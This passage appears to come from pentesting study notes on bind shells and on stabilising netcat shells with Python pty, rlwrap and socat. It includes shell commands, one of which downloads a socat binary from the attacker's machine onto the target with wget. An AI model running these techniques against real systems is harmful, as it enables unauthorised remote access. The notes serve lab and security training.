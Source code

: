 #### Bind Shells[​](broken-reference) <a href="#bind-shells" id="bind-shells"></a>

```
nc <target-ip> <chosen-port>
```

#### Netcat Shell Stabilitation[​](broken-reference) <a href="#netcat-shell-stabilitation" id="netcat-shell-stabilitation"></a>

These shells are very unstable by default. Pressing `Ctrl + C` kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right.

**Technique 1: Python**[**​**](broken-reference)

Is applicable only to Linux boxes, as they will nearly always have Python installed by default.

1. use `python -c 'import pty;pty.spawn("/bin/bash")'`, qich uses Python to spawn a better featured bah shell (try with `python`, `python2`or `python3`). At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. `export TERM=xterm`. This will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

**Technique 2: rlwrap**[**​**](broken-reference)

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`. To use rlwrap, we invoke a slightly different listener:

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

**Technique 3: Socat**[**​**](broken-reference)

Use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets. as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary `sudo python3 -m http.server 80`, then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget `wget <LOCAL-IP>/socat -O /tmp/socat`.
